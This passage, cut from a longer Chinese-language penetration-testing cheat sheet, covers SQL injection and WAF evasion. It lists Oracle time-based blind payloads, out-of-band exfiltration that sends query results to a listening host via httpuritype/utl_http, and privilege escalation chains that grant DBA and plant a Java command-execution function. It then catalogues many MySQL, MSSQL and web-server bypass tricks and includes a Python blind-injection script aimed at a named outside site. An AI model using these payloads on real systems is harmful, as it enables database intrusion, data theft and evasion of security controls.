另外，除了把字母遍历一遍之外，还可以使用bitand(),把每个字母的ASCII分别与1，2，4，...128进行按位与运算，从而只需要发8次数据，就能得到它的二进制表示的ascii码。
```

### oracle延时盲注-基于函数超时

原理：

RECEIVE_MESSAGE函数-从指定管道获取消息

语法：

DBMS_PIPE.RECEIVE_MESSAGE('pipename',timeout)

常用payload：

```txt
and (select length(user) from dual)=N or 1=dbms_pipe.receive_message('RDS',5)                           -- 同样是使用短路求值的思路，or后面的表达式最终会返回真。
and (select length(user) from dual)=4 or 1=utl_http.request('http://10.0.0.1/ '||('a')||'.html');       -- 正确则不延迟
1) AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND (6314=6314
1 AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5)
1 AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5)-- ACtH
1') AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND ('RTOk'='RTOk
1' AND 2730=DBMS_PIPE.RECEIVE_MESSAGE(CHR(77)||CHR(81)||CHR(76)||CHR(102),5) AND 'SEal'='SEal

sqlmap中的payload：
[ok]AND 123=DBMS_PIPE.RECEIVE_MESSAGE('123',5)
[ok]OR 123=DBMS_PIPE.RECEIVE_MESSAGE('123',5)
```

### oracle延时盲注-基于重查询

原理：

即通过执行一个较为消耗资源的查询，造成数据库的延迟，再通过返回是否延迟来判断猜测的结果。

```
and  (select length(user) from dual)=6 or 1<(SELECT count(*) FROM all_users A, all_users B, all_users C,all_users D,all_users E);
```

在我们的N是正确的情况下，数据库并不会产生延迟；如果错误，则会产生延迟

常用payload：

```txt
[ok]AND 123=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
[ok]OR 123=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
```

## oracle带外传输

```txt
即在Oracle拥有外网权限的时候，可以让Oracle把查询的结果拼接到URL里，去访问这个URL，再在我们的服务器上监听端口即可得到查询结果。（同样以查询当前用户为例）
and (select httpuritype('127.0.0.1:8888/'||(select user from dual)).getclob() from dual) is not null;

或者也可以使用utl_http.request等函数。

测试效果如下：
```



## 命令执行

```txt
测试环境:
CentOS Linux release 7.2.1511 (Core)
Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit Production

执行方式很多种，这边只研究Oracle10g，并且本地实测成功的:
DBMS_EXPORT_EXTENSION()
dbms_xmlquery.newcontext()
DBMS_JAVA_TEST.FUNCALL()
```

注意：注入时需去除末尾分号;

### DBMS_EXPORT_EXTENSION()

```txt
影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)
权限：None
详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。
提权：该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。 因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权
payload：select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual

建立DBA权限的TEST帐号
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''grant dba to test identified by test'';commit;end;') from dual;

直接添加CMDHSHELL

1.创建java包：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;

2.赋予java权限：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;

3.创建函数：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;

4.执行命令:
|| utl_inaddr.get_host_name((select LinxRunCMD('cmd /c dir d:')))--
```

### dbms_xmlquery.newcontext()

### DBMS_JAVA_TEST.FUNCALL()

### 参考

```txt
https://www.t00ls.net/viewthread.php?tid=45663&highlight=Oracle%E6%B3%A8%E5%85%A5
```

# 逃逸waf注入技术

### 简单WAF绕过技术

#### 常见绕过技术

```txt
技术分类：
a)大小写混合

b)替换关键字

c)使用编码
utf-7的绕过，还有utf-16、utf-32的绕过
d)使用注释

e)等价函数与命令

f)特殊符号

g)HTTP参数控制

h)缓冲区溢出

i)整合绕过
```

#### 常见符号绕过

```txt
表名列名等单/双引号过滤：
1.使用char()函数绕过：
concat(char(99),char(116),char(102),char(52))

2.使用十六进制绕过：
比如：ctf =十六进制转换=> 0x630x740x66

3.html实体编码：
&#39

4.双url编码：
%2527
这里主要是因为绕过magic_quotes_gpc过滤，因为%25解码为%,结合后面的27也就是%27也就是'，所以成功绕过过滤。
```

#### 过滤&,|,*,/,=等逻辑处理字符

```txt
可以用in,exists,position..in,>,<,!,<>,like等操作符绕过这个链接有详细介绍http://www.runoob.com/mysql/mysql-like-clause.html
这里举一个例子，比如要使用sql盲注的话但是过滤了substr,mid，asccii,ord等函数可以使用一下语句

admin' AND password LIKE "p%" --
```

#### 过滤<,>

```txt
方法：
使用greatest()绕过
说明：
greatest(n1,n2,n3,..........)返回 n1、n2、n3等一系列参数中的最大值
实例：
greatest(ascii(mid(user(),0,1)),150)
and greatest(ascii(substr(database(),0,1)),64)=64

方法：
least()
说明：
least函数会返回最小值
实例：
least(ascii(mid(user(),0,1)),150)
```

#### 关键字过滤

```txt
方法：
编码，内联注释，大小写绕过
实例：
%75%6e%69%6f%6e
/*!50000union*/
Union

from过滤：
使用from.
```

#### 表名等被过滤

```txt
以information_schema.tables为例
空格 information_schema . tables
着重号 information</em>schema.tables
特殊符 /!information——schema.tables/
别名 information_schema.(partitions),(statistics),(keycolumnusage),(table_constraints)

替换information_schema
把information_schema.tables改成
information_schema.statistics或
mysql.innodb_table_stats

测试:
select schema_name from information schema.tables;


```

#### 未知字段名

```txt
1.使用虚拟表：
原理：
核心在将一个可控的虚拟表V1与需要查询的真实表V2联合起来（使用union select），使得表字段可控从而查询数据。

payload:
select a.2 from (select 1,2 from DUAL union select * from math1)a;  #查询math1表，第2个字段的值，注意d.2要和a，b要和字段数一致
select d.2 from (select * from (select 1)a join (select 2)b union select * from math1)d;    #当过滤逗号时使用

2.使用left()，进行猜解
原理：
当字段存在时left()返回True,否则返回False

payload:
select id,name from math1 where id=0 or left(name,0)=0;
select id,name from math1 where id=1 and left(name,0)=0;   #使用数字时，永远返回true？可以猜解字符型表名
```

#### 空格过滤

```txt
%20         #url编码
%00         #00截断
%09         #tab
%0a         #绕过360云waf，是\n，绕过select.+from
%0b
%0c
%0d
%a0
+
-++-        #数值型可以
-+-+-+-+~~  #同上，但是实站都行，原因未知
!~~!        #有点问题
/**/        #
/*--*/
()
```

#### 判断其他过滤

```txt
实例:
+----+-------------+
| id | name        |
+----+-------------+
|  1 | langyi      |
|  2 | luyasheng   |
|  3 | lichongfei  |
|  4 | xiaoming    |
|  5 | 0           |
|  6 | liumuzi     |
|  7 | wangyuxing  |
|  8 | gaoyingying |
| 10 | pass        |
| 11 | 0           |
| 12 | bbbx        |
| 13 | 0           |
+----+-------------+

1.百分号:
select * from math1 where name like 'l%' limit 1 offset 0;
select * from math1 where id like concat(char(49),char(95));    #49=1，95=_
MariaDB [myclass]> select * from math1 where name like 'l%';
+----+-------------+
| id | name        |
+----+-------------+
|  1 | lxxxxxxxx   |
|  2 | luyasheng   |
|  3 | lichongfei  |
|  6 | liumuzi     |
| 12 | liushuqiang |
+----+-------------+
5 rows in set (0.00 sec)

2.下划线:
select * from math1 where id like '1_';
MariaDB [myclass]> select * from math1 where id like '1_';
+----+--------------+
| id | name         |
+----+--------------+
| 10 | pass         |
| 11 | huangjingtao |
| 12 | liushuqiang  |
| 13 | ctfer        |
+----+--------------+
4 rows in set (0.00 sec)

3.句号:
select user from mysql.user;
MariaDB [myclass]> select name from myclass.math1;
+--------------+
| name         |
+--------------+
| lxxxxxxxx    |
| luyasheng    |
| lichongfei   |
| xiaoming     |
| huxingyue    |
| liumuzi      |
| wangyuxing   |
| gaoyingying  |
| pass         |
| huangjingtao |
| liushuqiang  |
| ctfer        |
+--------------+
12 rows in set (0.00 sec)

通用:
select @@LOCAL.SQL_SELECT_LIMIT;
select @@GLOBAL.VERSION;
select CURRENT_USER();

```
#### 不安全函数绕过：
```
1.parse_url()
功能说明:
解析 URL，返回其组成部分

绕过:
获取URL的参数有一点儿问题，他并不能很好的处理，如果我们传入的是
///upload.php?cache这样的地址，然后parse_url()处理URL会返回false，那么后面的preg_match就不会匹配到任何字符串了。

2.htmlentities()
功能说明:
将字符转换为 HTML 转义字符

绕过:
只过滤单引号，双引号等，不过滤反斜杠 \ ，可以反斜杠 \ 转义绕过

3.substr_count()
功能说明:
计算字串出现的次数

绕过:
使用%00
unio%00n

4.stripslashes()
功能说明:
去掉一个反斜杠 \

5.mysql_real_escape_string()
功能说明:
转义 SQL 语句中使用的字符串中的特殊字符，并考虑到连接的当前字符集 

6.is_numeric()
功能说明:
检测变量是否为数字或数字字符串


```
#### 通用WAF绕过：
```
可以绕过(,,union,select,and,or,空格,#，balabalabalabala)
a'^!(mid((version)from(-{pos}))='{passwd}')='1

a'^(ascii(mid((version())from(1)))=53)^'1
select{x table_name}from{x information_schema.tables};

if(substr(user(),1,1)in(0x41),3,0)  #id=3和id=0返回页面不同
if(substr(version(),1,1)in(0x35),'1',9) #注意'1'和1

id=6^(if(ascii(mid(load_file(0x2F7661722F7777772F68746D6C2F696E6465782E706870),1,2))>1,0,1))

十六进制编码:
0x2F7661722F7777772F68746D6C2F696E6465782E706870
/var/www/html/index.php
```
### 关键字过滤绕过：
* 左边表示会被Filtered的语句，右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

原语句|绕过语句|
---|----|
<font color=#FF6347>and</font>|<font color=#00BFFF>&&</font>|
<font color=#FF6347>or</font>|<font color=#00BFFF>\|\|</font>|
<font color=#FF6347>union</font> select user, password from users|<font color=#00BFFF>1 \|\|</font> (select user from users where user_id = 1) = 'admin
1 \|\| (select user from users <font color=#FF6347>where</font> user_id = 1) = 'admin'|1 \|\| (select user from users <font color=#00BFFF>limit</font> 1) = 'admin
1 \|\| (select user from users <font color=#FF6347>limit</font> 1) = 'admin'|1 \|\| (select user from users <font color=#00BFFF>group by</font> user_id having user_id = 1) = 'admin'
1 \|\| (select user from users <font color=#FF6347>group by</font> user_id having user_id = 1) = 'admin'|1 \|\| (select substr(<font color=#00BFFF>group_concat</font>(user_id),1,1) user from users )=1
1  \|\| (<font color=#FF6347>select</font> substr(group_concat(user_id),1,1) user from users) = 1|1 \|\| 1 = 1 into outfile 'result.txt'　或者  1 \|\| substr(user,1,1) = 'a'
1 \|\| (select substr(group_concat(user_id),1,1) user from users) = 1|1 \|\| user_id is not null 或者 1 \|\| substr(user,1,1) = 0x61 或者 1 \|\| substr(user,1,1) = unhex(61)　　//　' Filtered
1 \|\| substr(user,1,1) = un<font color=#FF6347>hex</font>(61)|1 \|\| substr(user,1,1) = lower(<font color=#00BFFF>conv(11,10,36)</font>)
1 \|\| <font color=#FF6347>substr</font>(user,1,1) = lower(conv(11,10,36))|1 \|\| <font color=#00BFFF>lpad</font>(user,7,1)
1 \|\| lpad(user,7,1)|1%0b\|\|%0blpad(user,7,1)　　// ' ' Filtered

### 高级WAF绕过技术：
```
分类：
1.云waf；[阿里云盾，百度云加速，360网站卫士，加速乐等]
2.传统安全厂商的硬件waf以及一直存在的ips，ids设备；[绿盟，启明，深信服，安恒等]
3.主机防护软件如安全狗，云锁；
4.软waf如modsecurity，nginx-lua-waf等。
```
### WAF在哪里:
```
这里我就用'WAF'来代替上面所说的一些防护软件，我们需要知道这些WAF都在网络空间的哪些位置。
用户从浏览器发出一个请求（http://www.miku.com/1.php?id=1%20and1=1）到最终请求转发到服务器上，中间经历了多少设备，这些工作在网络的第几层（TCP/IP协议）？我们应用层的数据被哪些设备处理了？
这是一个经典的数通问题，了解WAF在网络空间的位置，我们便可以更清楚的知道使用哪些知识来协助我们进行WAF bypass。
```
* 如下图所示:


```
画了一个简单的拓扑图。
图中可以很清楚的看到，我们的云waf，硬件ips/ids防护，硬件waf，主机防护，软waf以及应用程序所在的位置。
```
### WAF数据处理:
```
在明白了各种防护软件在网络环境下的拓扑之后，现在了解一下基础数据的流量与相关设备的基本处理。

假设客户端访问url：http://www.miku.com/1.php?id=1'and'1'='1，该请求请求的数据是服务器上数据库中id为1的记录。
```
* 假设这台服务器使用了相关云waf。

1. 一个完整的过程，首先会请求DNS，由于配置云waf的时候，会修改DNS的解析。我们发送DNS请求之后，域名会被解析到云WAF的ip上去。DNS解析完成之后，获取到域名信息，然后进入下一个步骤。

2. HTTP协议是应用层协议，且是tcp协议，因此会首先去做TCP的三次握手，此处不去抠三次握手的细节，假设三次握手建立完毕。

3. 发送HTTP请求过去，请求会依次经过云WAF，硬件IPS/IDS设备，硬件WAF设备，服务器，web服务器，主机防护软件/软WAF，WEB程序，数据库。 云WAF，硬件IPS/IDS，硬件WAF均有自己处理数据的方式。云WAF与硬件WAF细节上不太清楚，对于硬件IPS有一定的了解。之前在drops上发过一篇文章，文章链接是：http://drops.wooyun.org/papers/4323。
```
在获取HTTP数据之前会做TCP重组，重组主要目的是针对互联网数据包在网络上传输的时候会出现乱序的情况，数据包被重组之后就会做协议解析，取出相关的值。如http_method=GET,http_payload=xxx等等。这些值就对应了IPS规则中相关规则的值。从而来判断规则匹配与不匹配。
```
### WAF BYPASS的理解:
```
在我自己看来，所谓的BYPASS WAF实际上是去寻找位于WAF设备之后处理应用层数据包的硬件/软件的特性。利用特性构造WAF不能命中，但是在应用程序能够执行成功的载荷，绕过防护。

那些特性就像是一个个特定的场景一样，一些是已经被研究人员发现的，一些是还没被发现，等待被研究人员发现的。当我们的程序满足了这一个个的场景，倘若WAF没有考虑到这些场景，我们就可以利用这些特性bypass掉WAF了。
```
* 例如我们现在需要bypass一个云WAF/IPS/硬件WAF，此处我们可以利用的点就是：

1. Web服务器层bypass
2. Web应用程序层bypass
3. 数据库层 bypass
4. WAF层bypass
```
由于各个层面可以利用的特性很多，而且WAF往往要考虑自身的性能等等方面，导致了WAF往往会留下一些软肋。下面的文章来细细的总结下之前那些经常被用来做bypass的特性。

Ps.思路是不是稍微清晰了一点。= =
```
### Bypass WAF 姿势:
#### 通过真实ip bypass:
```
思路:
通过服务端发送邮件，查看原文件，获取真实Ip，然后通过修改host，域名解析到真实Ip,绕过cdn云waf
https://www.t00ls.net/thread-42975-1-1.html
https://www.t00ls.net/viewthread.php?tid=34467&highlight=%E7%9C%9F%E5%AE%9Eip
```
#### Web Server层 bypass:
```
利用WEB服务器的特性来进行WAF bypass，常见的组合就有asp+IIS aspx+IIS php+apache java+tomcat等。

这部分内容大多是用来做http的解析等相关事务的，因此这里我理解的也就是寻找WAF对于http解析以及真实环境对于http解析的差异特性，利用差异特性来bypass WAF。

Ps.这部分待挖掘的地方还有很多，而且这部分挖掘出来的特性应该对于WAF的bypass是致命的。
```
##### IIS服务器
###### %特性
```
在asp+iis的环境中存在一个特性，就是特殊符号%，在该环境下当们我输入s%elect的时候，在WAF层可能解析出来的结果就是s%elect，但是在iis+asp的环境的时候，解析出来的结果为select。

本地搭建asp+iis环境测试
```
* 测试效果如下图：


```
Ps.此处猜测可能是iis下asp.dll解析时候的问题，aspx+iis的环境就没有这个特性。
```
###### %u特性
```
Iis服务器支持对于unicode的解析，例如我们对于select中的字符进行unicode编码，可以得到如下的s%u006c%u0006ect，这种字符在IIS接收到之后会被转换为select，但是对于WAF层，可能接收到的内容还是s%u006c%u0006ect，这样就会形成bypass的可能。我们搭建asp+iis和aspx+iis的环境：
```
1. asp+iis的环境测试效果如图：



2. aspx+iis的环境测试效果如图：


###### 另类%u特性
```
Ps.需要注意的是，这个特性测试的时候发现aspx+iis的环境是不支持的，有待做实验考证，怀疑是后缀后面的内容是通过asp.net isapi来出来的，导致了asp和aspx的不同。

上面写到了iis支持unicode的格式的解析。这种iis解析，存在一个特性，之前在wooyun上报过一个漏洞： WooYun: 一个有意思的通用windows防火墙bypass(云锁为例) 。

该漏洞主要利用的是unicode在iis解析之后会被转换成multibyte，但是转换的过程中可能出现： 多个widechar会有可能转换为同一个字符。

打个比方就是譬如select中的e对应的unicode为%u0065，但是%u00f0同样会被转换成为e。

s%u0065lect->select
s%u00f0lect->select

WAF层可能能识别s%u0065lect的形式，但是很有可能识别不了s%u00f0lect的形式。这样就可以利用起来做WAF的绕过。
```
* asp+iis的环境测试效果如图：



```
Ps.该漏洞的利用场景可能有局限性，但是挖掘思路是可以借鉴的。
```
##### apache服务器
###### 畸形method
```
某些apache版本在做GET请求的时候，无论method为何值均会取出GET的内容，如请求为的method为DOTA2，依然返回了aid为2的结果。
```

```
如果某些WAF在处理数据的时候严格按照GET,POST等方式来获取数据，就会因为apache的宽松的请求方式导致bypass。 实例： WooYun: 安全宝SQL注入规则绕过

ps.测试的时候使用了apache2.4.7的版本。
```
###### php+apache畸形的boundary
```
Php在解析multipart data的时候有自己的特性，对于boundary的识别，只取了逗号前面的内容，例如我们设置的boundary为----aaaa,123456，php解析的时候只识别了----aaaa,后面的内容均没有识别。然而其他的如WAF在做解析的时候，有可能获取的是整个字符串，此时可能就会出现BYPASS。

参考：http://blog.phdays.com/2014/07/review-of-waf-bypass-tasks.html
```

```
如上图，可能出现waf获取的是一个图片的内容，而在web端获取的是aid=2的值。这样的差别就有可能造成bypass。
```
##### nginx服务器
###### 畸形method
```
同apache，畸形method默认为GET方法
```

###### post长数据，绕过ngx_lua_waf
```
post数据
x=n个x&id=payload
```

#### Web应用程序层bypass
##### 双重url编码
```
双重url编码，即对于浏览器发送的数据进行了两次urlencode操作，如s做一次url编码是%73,再进行一次编码是%25%37%33。一般情况下数据经过WAF设备的时候只会做一次url解码，这样解码之后的数据一般不会匹配到规则，达到了bypass的效果。

个人理解双重url编码，要求数据在最后被程序执行之前，进行了两次url解码，如果只进行了一次解码，这样在最后的结果也是不会被正确执行的。 实例： WooYun: 腾讯某分站SQL注射-直接绕过WAF
```
##### 请求获取方式
1. 变换请求方式

###### GET,POST,COOKIE
```
在web环境下有时候会出现统一参数获取的情况，主要目的就是对于获取的参数进行统一过滤。例如我获取的参数t=select 1 from 2 这个参数可以从get参数中获取，可以从post参数获取，也可以从cookie参数中获取。

典型的dedecms，在之前测试的时候就发现了有些waf厂商进行过滤的时候过滤了get和post，但是cookie没有过滤，直接更改cookie参数提交payload，即绕过。

实例: WooYun: 百度云加速防御规则绕过之三 一个dedecms的站，get，post均过滤了，但是并没有过滤cookie参数。
```
###### urlencode和form-data
```
POST在提交数据的时候有两种方式，第一种方式是使用urlencode的方式提交，第二种方式是使用form-data的方式提交。当我们在测试站点的时候，如果发现POST提交的数据被过滤掉了，此时可以考虑使用form-data的方式去提交。

我们在阿里云ecs主机上搭建个环境，创建一个存在sql注入漏洞的页面，获取参数从POST上获取，首先我以urlencode的方式提交，查看发现提交的请求被阻断了。
```

```
其次我们以form-data的方式提交，发现爆出了数据库的版本。
```


2. 畸形请求方式
###### asp/asp.net request解析
```
在asp和asp.net中使用参数获取用户的提交的参数一般使用request包，譬如使用request['']来获取的时候可能就会出现问题。 资料文档：http://www.80sec.com/%E6%B5%85%E8%B0%88%E7%BB%95%E8%BF%87WAF%E7%9A%84%E6%95%B0%E7%A7%8D%E6%96%B9%E6%B3%95.html

当使用request['']的形式获取包的时候，会出现GET，POST分不清的情况，譬如可以构造一个请求包，METHOD为GET，但是包中还带有POST的内容和POST的content-type。

我们搭建一个实例：

我们创建一个letmetest.aspx的界面获取用户提交的内容，并且将request['t']的内容打印出来。【在服务器上安装了安全狗】 首先我们提交正常的POST请求，发现已经被安全狗阻断了：
```

```
此时我们提交畸形的请求，method为GET，但是内容为POST的内容，发现打印出来了内容。
```

##### hpp方式
|Web服务器|参数获取函数|获取到的参数|
|-------|------|------|
PHP/Apache|$_GET("par")|Last
JSP/Tomcat|Request.getParameter("par")|First
Perl(CGI)/Apache|Param("par")|First
Python/Apache|getvalue("par")|All|(List)
ASP/IIS	|Request.QueryString("par")|All|(comma-delimited string)
```
HPP是指HTTP参数污染。形如以下形式：

?id=1&id=2&id=3的形式，此种形式在获取id值的时候不同的web技术获取的值是不一样的。

假设提交的参数即为：

id=1&id=2&id=3


Asp.net + iis：id=1,2,3
Asp + iis：id=1,2,3
Php + apache：id=3
如此可以分析：当WAF获取参数的形式与WEB程序获取参数的形式不一致的时候，就可能出现WAF bypass的可能。

Ps.此处关键还是要分析WAF对于获取参数的方式是如何处理的。这里也要再提一下的，hpp的灵活运用，譬如有些cms基于url的白名单，因此可以利用hpp的方式在参数一的位置添加白名单目录，参数2的位置添加恶意的payload。形如index.php?a=[whitelist]&a=select 1 union select 2

实例参考： WooYun: 使用webscan360的cms厂商通过hpp可使其失效（附cmseasy新版sql注射）
```

```sql
payload:
show_user.aspx?id=5;select+1&id=2&id=3+from+users+where+id=1--
```

#### 数据库层bypass

```txt
数据库层bypass常常是在bypass waf的sql注入防护规则。我们需要针对数据库使用该数据库的特性即可。如mysql，sqlserver等等。最近一直想整理下oracle的，这块也是研究不多的，后续整理后添加到文档里。

Ps.目前数据库被暴露出来的特性很多很多，基本上很多特性综合利用就已经够用了，因此特性知不知道是一方面，能不能灵活运用就得看测试者自己了。
```

##### mysql数据库

```txt
就目前来看mysql是使用最多的，也是研究人员研究最深的数据库。在我自己测试的角度上我一般会去测试下面的过滤点，因为一般绕过了select from就基本可以sql注入获取数据了。
```

###### 常见过滤的位置

* 第一：参数和union之间的位置

http://zone.wooyun.org/content/16772 贴中有相关总结。

1. \Nunion的形式：



2. 浮点数的形式如1.1,8.0:



3. 8e0的形式:



4. 利用/\*!50000\*/的形式:


* 第二：union和select之前的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/

例子:
union/**s**/select/**s**/   #绕过360
```

3. 使用括号

```txt
select(*)from(tab_name);
```

* 第三：union select后的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/
```

3. 其他方式：(这里需要考虑的是有时候union select和select from可能是两个规则，这里先整理union select的)

```txt
(1)括号：
select(*)from(tab_name);
```

```txt
(2)运算符号：
减号：
```



```txt
加号：
```


```txt
~号：
```



```txt
!号：
```



```txt
@`形式`:
```



```txt
*号，利用/*!50000*/的形式:
```



```txt
单引号和双引号：
```



```txt
{括号：
```



```txt
\N符号：
```



* 第四：select from之间的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/
```

3. 其他符号

```txt
``符号
```



```txt
+,-,!,~,'"
```



```txt
*号

{号

(号
```

* 第五：select from之后的位置

1. 空白字符

```txt
Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%a0；
```

2. 注释

```txt
使用空白注释
/*xxxx*/
/*!xxxx*/
```

3. 其他符号

```txt
``号

*号

{号

(括号

Ps.空白符，注释符，/!50000select*/,{x version},(),在很多点都可以使用，某些点有自己特殊的地方，可以使用一些其他的符号。

实例：http://wooyun.org/bugs/wooyun-2010-0121291 实例就是利用灵活利用上面的特性，导致了bypass。
```

###### mysql常见过滤函数

* 字符串截取函数

```txt
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
Lpad(version(),1,1)
Rpad(version(),1,1)
Left(version(),1)
reverse(right(reverse(version()),1)
以上全部被过滤时，使用concat：
payload:
hex(user()<concat(char(67)))
```

```python
附带脚本：
#-*- coding:utf-8 -*-
import requests
import sys
url="http://sqlitest.anquanbao.com.cn/api/query?art_id=hex(version()<CONCAT(%s))"
pre=""
i=0
result=""
while i<128:
    #print url
    r=requests.get(url%(pre+'char('+str(i)+")"))
    print r.url
    if len(r.text)>203:
        if i!=33:
            pre=pre+'char('+str(i-1)+'),'
            result+=chr(i-1)
            print result
            i=0
        else:
            break
    i=i+1
```

* 字符串连接函数

```txt
concat(version(),'|',user());
concat_ws('|',1,2,3)
```

* 字符转换

```txt
Ascii(1)    #此函数之前测试某云waf的时候被过滤了，然后使用ascii(1)即可，函数名大小写绕过
Char(49)    #范围0-255内可利用？
Hex('A')
Unhex(61)
```

###### 过滤了逗号

* substr,mid等，使用from

```txt
mid(user() from 1 for 1)
或
substr(user() from 1 for 1)
最后结合ascii()取左边第一位，逐位猜解，此外还可以使用hex()？
```

* limit，使用offset

```sql
select * from tab_name limit 1 offset 0
```

* union处的逗号

```sql
通过join拼接

爆显示位
payload：
union select * from (select 1)a join (select 2)b join (select 3)c limit 1 offset 1;
union select * from (select 1)a join (select{x schema_name} from information_schema.schemata limit 1 offset 1)b join (select 3)c limit 1 offset 1;

```



###### 浮点精度特性

```txt
php中:
1.0000000000001 != 1
1.0000000000000001
在MySQL中:
1.0000000000001 == 1
1.0000000000000001 == 1
```

##### sqlserver数据库

###### 常见过滤位置

* 第一：select from后的位置

1. 空白符号:

```txt
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
需要做urlencode，sqlserver中的表示空白字符比较多，靠黑名单去阻断一般不合适。
```

2. 注释符号:

```txt
Mssql也可以使用注释符号/**/
```

3. 其他符号:

```txt
.符号
```



```txt

:符号

```


* 第二：select from之间的位置

1. 空白符号：

```txt
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
需要做urlencode，sqlserver中的表示空白字符比较多，靠黑名单去阻断一般不合适。
```

2. 注释符号:

```txt
Mssql也可以使用注释符号/**/
```

3. 其他符号:

```txt
:符号
```


* 第三：and之后的位置
1. 空白符号：

```txt
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
需要做urlencode，sqlserver中的表示空白字符比较多，靠黑名单去阻断一般不合适。
```

2. 注释符号:

```txt
Mssql也可以使用注释符号/**/
```

3. 其他符号:

```txt
:符号
```


```txt
%2b号
```



###### mssql常见过滤函数

1. 字符串截取函数

```
Substring(@@version,1,1)
Left(@@version,1)
Right(@@version,1)
```

2. 字符串转换函数

```txt
Ascii('a') 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
Char('97')
```

3. 其他方式

```txt
Mssql支持多语句查询，因此可以使用；结束上面的查询语句，然后执行自己构造的语句。动态执行。

使用exec的方式：
```



```txt
使用sp_executesql的方式：
```



```txt
使用这类可以对自己的参数进行拼接，可以绕过WAF防御。

如使用该类特性然后加上上面提到的:的特性就可以绕过安全狗的注入防御。
```

#### WAF层bypass

##### 性能bypass

```txt
WAF在设计的时候都会考虑到性能问题，例如如果是基于数据包的话会考虑检测数据包的包长，如果是基于数据流的话就会考虑检测一条数据流的多少个字节。一般这类算检测的性能，同时为了保证WAF的正常运行，往往还会做一个bypass设计，在性能如cpu高于80%或则内存使用率高于如80%是时候，会做检测bypass，以保证设备的正常运行。

WAF等设备都是工作在应用层之上的，如HTTP,FTP,SMTP等都是应用层的协议，这些数据要被处理都会被进行数据解析，协议分析。最终获取应用层的数据。如HTTP的方法是什么，HTTP的querystring是什么，以及HTTP的requestbody是什么。然后将这些实时获取的值与WAF设计的规则进行匹配，匹配上着命中规则做相应的处理。
```

###### 性能检测bypass



```txt
现在问题就是检测多长呢？例如我用HTTP POST上传一个2G的文件，明显不可能2G全做检测不但耗CPU，同时也会耗内存。因此在设计WAF的时候可能就会设计一个默认值，有可能是默认多少个字节的流大小，可能是多少个数据包。

之前在zone发过个帖子，http://zone.wooyun.org/content/17331，是测试安全狗的，大致原理应该是一样的，设计了一个脚本，不断的向HTTP POST添加填充数据，当将填充数据添加到一定数目之后，发现POST中的sql注入恶意代码没有被检测了。最终达到了bypass的目的。

在测试某家云WAF的时候使用此类方法也可以达到bypass的目的。
```

###### 性能负载bypass



```txt
一些传统硬件防护设备为了避免在高负载的时候影响用户体验，如延时等等问题，会考虑在高负载的时候bypass掉自己的防护功能，等到设备的负载低于门限值的时候又恢复正常工作。

